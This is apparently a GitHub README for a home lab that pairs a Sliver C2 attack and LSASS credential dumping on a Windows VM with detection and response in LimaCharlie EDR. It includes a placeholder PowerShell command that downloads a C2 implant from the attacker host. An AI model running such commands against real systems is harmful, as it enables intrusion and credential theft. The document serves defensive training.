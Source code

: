 # LimaCharlie-EDR-Lab
![Architecture](https://i.imgur.com/6mftsEk.jpg)

## Introduction

I simulated a real-life cyber attack scenario and tested the effectiveness of my security measures. I created two virtual machines on a NatNetwork: an Ubuntu Server acting as the attacker, and a Windows 11 machine as the victim.

To enhance the security of the victim machine, I installed LimaCharlie sensor and Sysmon, which helped me detect any potential attacks or security events. On the Ubuntu Server, I installed [Sliver-Server C2](https://bishopfox.com/blog/sliver), a command and control attack tool. I will be conducting a Credential Gathering attack using LSASS.exe to extract usernames and passwords. 

To test my security measures, I executed the C2 attack and created detection rules to alert administrators of any suspicious activity. This lab project aimed to demonstrate the importance of having robust security measures in place to protect against cyber attacks.

The Technologies and Tools used during this project:

* Virtual Box NatNetwork
* Virtual Machines 
  + Windows 11
  + Ubuntu Server 22.04
* LimaCharlieEDR
* Silver Server 

## Labbing

After setting up the environment, the next step involved creating a Sliver-Server C2 implant on the Ubuntu server to be installed on the Windows system.


![Implant](https://i.imgur.com/LEP0qSk.png)


To facilitate the installation process, a quick web server was set up on the Ubuntu machine. This web server would host the C2 payload, allowing it to be easily accessed and downloaded by the Windows device.

On the Windows system, a PowerShell command was executed to initiate the download and save the C2 implant. The specific PowerShell command used was:

![IWR](https://i.imgur.com/dadsDeX.png)

IWR -Uri http://[IpAddress]/[ImplantName] -Outfile [FileLocation]

In this command, [IpAddress] refers to the IP address of the Ubuntu machine hosting the C2 payload, [ImplantName] represents the name of the C2 implant file, and [FileLocation] indicates the desired location on the Windows system where the implant should be saved.

Once the C2 implant is successfully downloaded onto the Windows device, the next step would involve executing the malicious file. This execution grants the C2 infrastructure control over the compromised Windows system, allowing for remote access and potential malicious activities.

![Excute](https://i.imgur.com/mkdYQkp.png)

## Excuting Commands on Victum Device

Once inside the Sliver-Server session, we have the ability to run commands and gather information about the compromised device. Here are some commands that can be executed within the Sliver-Server session to identify the device:

![Session](https://i.imgur.com/4SE5ZEE.png)

Whoami - Hostname

PWD - Print Working Directory

Netstat - Network connections

ps -T - Process Tree (Sliver highlights its own files green )

![Tree](https://i.imgur.com/CfmWUyF.png)


## Inside LimaCharlie EDR

After successfully installing the malicious file, it is important to leverage the capabilities of our EDR (Endpoint Detection and Response) solution to gain visibility into the compromised system. Here's what can be done using the EDR solution:

Processes Analysis: Begin by examining the running processes on the compromised system. Look for any suspicious or unfamiliar processes. During the investigation, an unsigned file is discovered, highlighted in yellow, indicating a potentially malicious presence.
    
![process](https://i.imgur.com/Pts6px0.png)

File Location and LimaCharlie Filesystem Section: Upon identifying the suspicious process, investigate further to determine its file location. In this case, it is found within the Downloads folder of a user named "Victum." To gain more insights, access the LimaCharlie filesystem section to locate and analyze the identified file.
    
![filesystem](https://i.imgur.com/ksRCp3P.png)

Timeline Analysis: Shift focus to the timeline of events surrounding the installation of the malicious file. Explore the activities leading up to and following the installation to identify any relevant indicators of compromise (IOCs) or suspicious behavior. During this analysis, a network connection is observed, and it is found that the file of concern is named "COMPLEX_BELL."

![timeline](https://i.imgur.com/jYVSaNr.png)

Hash Analysis with VirusTotal: Proceed with gathering the hash of the suspicious file and conduct a lookup using VirusTotal, a popular online threat intelligence platform. However, when querying VirusTotal with the file's hash, no results are returned. This lack of detection suggests that the attacker likely crafted the file themselves, evading traditional signature-based antivirus detection.


## Credential Gathering

One of the critical objectives for attackers is gaining access to multiple user accounts. A common technique used to achieve this is by extracting credentials from the LSASS.exe file, which contains usernames, passwords, and security tokens.

To understand LSASS Credential Gathering in more detail, you can refer to the documentation provided by [Mitre](https://attack.mitre.org/techniques/T1003/001/).

Attackers typically run a command to copy the contents of the LSASS file and dump it onto their own host, enabling them to extract and analyze the gathered credentials.

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

To detect this specific method of Credential Gathering, we can create a detection rule in LimaCharlie. The rule will be designed to identify any interaction with the LSASS file. However, it is important to note that this detection rule may generate false positives if administrators are legitimately accessing the LSASS file for administrative purposes. In a lab scenario like this, where there are no actual users, this rule is suitable for detecting the LSASS dump command.

![lsass-detection-rule](https://i.imgur.com/6bDKczs.png)


Once the detection rule is implemented in LimaCharlie, running the LSASS dump command again will trigger the detection within the LimaCharlie system. The detection event will provide visibility into the unauthorized LSASS file access, allowing security analysts to investigate and respond to the potential credential gathering activity.

![lsass-dump](https://i.imgur.com/1TDbDT7.png)


![Lima-Detections](https://i.imgur.com/mCsvF9u.png)


## Containment & Eradication

First we need to identify if this attack took place on other devices inside the network. Since this lab only has one VM we know that there is only one. Next we should isolate this device from our network to ensure that this attacker can't move around or futher attack our internal network.

![isolate](https://i.imgur.com/E3bqXh9.png)

Then we can either return to a known good snapshot if this is a Virtual Machine. We can also delete the file inside LimaCharlie by going into the filesystem section and finding the malicous file. We will also need to inspect other logs and detections to ensure that no other attacks or malware took place on this device before we put it back on the network. 

The most important part, since this attack was stealing credientials, we need to change passwords, implement MFA and maybe change usernames to ensure the attacker cannot login to other devices or accounts. 

## Conclusion



## Credit

This project was based on a blog post by [Eric Capuano](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?sd=pf) 


